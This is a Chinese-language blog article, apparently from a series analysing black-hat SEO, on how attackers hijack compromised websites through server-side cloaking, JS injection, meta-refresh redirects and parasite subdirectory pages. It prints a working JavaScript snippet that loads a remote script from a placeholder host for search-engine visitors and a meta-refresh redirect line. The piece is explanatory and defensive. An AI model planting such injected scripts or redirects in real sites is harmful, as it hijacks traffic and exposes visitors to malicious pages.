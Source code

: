 ##### 服务端劫持
　　服务端劫持也称为全局劫持，此手法为修改网站动态语言文件，判断访问来源控制返回内容，从而达到网页劫持的目的。其特点往往是通过修改asp/aspx/php等后缀名文件，达到动态呈现网页内容的效果。
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本，然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问则返回正常页面。

##### 客户端劫持
客户端劫持的手法也很多，但最常用的就两种：js劫持与Header劫持。

js劫持目的是通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。js植入手法是可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。

js劫持代码案例：
以下代码可以使通过搜索引擎搜索的并点击页面时，执行一段js并跳转到博彩页面；而直接输入网址访问网页时，跳转到一个404页面。
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
　　代码分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。

header劫持，就是在html代码的head中添加特殊标签，代码如下：
```bash
<meta http-equiv="refresh" content="10; url=http://thief.one">
```
header劫持利用的就是Meta Refresh Tag（自动转向）功能将流量引走。

#### 直接篡改网页内容（比较低级）
　　有些黑客在入侵网站后，喜欢直接篡改网页内容，比如放上自己的qq号，或者作为推广将网页篡改成非法页面。在此我对此做法的黑客表示鄙视，因为这是一种最恶劣最低级的手法。恶劣在于直接篡改网页内容，可能会导致网站无法挽回的损失；低级在于此手法极易被发现，起不到真正的引流推广作用。

#### 利用高权重网站二级目录
　　即黑客入侵网站后，在网站二级目录下创建很多自己做推广的页面。为了达到引流的目的黑客往往需要建立大量的二级目录页面，因此需要用到寄生虫程序来自动化的创建页面。此手法也需要入侵高权重网站，获取网站服务器权限。与网页劫持手法不同的是，此手法侧重点在于利用高权重网站自身的优势，在其目录下创建多个推广页面；而网页劫持侧重隐藏自身，其可以做到动态呈现网页内容给客户。因此在实际使用中，黑客经常结合两者使用。此手法与利用泛解析做黑帽seo的手法还是有明显差异的，虽然同样是利用高权重网站本身的优势，但泛解析利用的是二级域名，而此手法利用的是二级目录，当然两者有异曲同工之妙。
　　利用高权重网站二级目录手法的案例与泛解析案例类似，这里不再详述。既然我前面提到此手法往往需要寄生虫程序的配合使用，那么我们来看看，何为寄生虫程序？它又有何玄机？

### 扩展知识
[【黑帽SEO系列】暗链](https://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E6%9A%97%E9%93%BE/)
[【黑帽SEO系列】网页劫持](https://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E7%BD%91%E9%A1%B5%E5%8A%AB%E6%8C%81/)
[【黑帽SEO系列】页面跳转](https://thief.one/2016/10/10/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E9%A1%B5%E9%9D%A2%E8%B7%B3%E8%BD%AC/)
[【黑帽SEO系列】基础知识](https://thief.one/2016/10/09/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/)

小结：黑产的技术再不断进步，我们没法停滞不前！

### 传送门
[黑帽SEO剖析之总结篇](https://thief.one/2017/09/28/4/)
[黑帽SEO剖析之隐身篇](https://thief.one/2017/09/28/3/)
[黑帽SEO剖析之工具篇](https://thief.one/2017/09/28/2/)
[黑帽SEO剖析之手法篇](https://thief.one/2017/09/28/1/)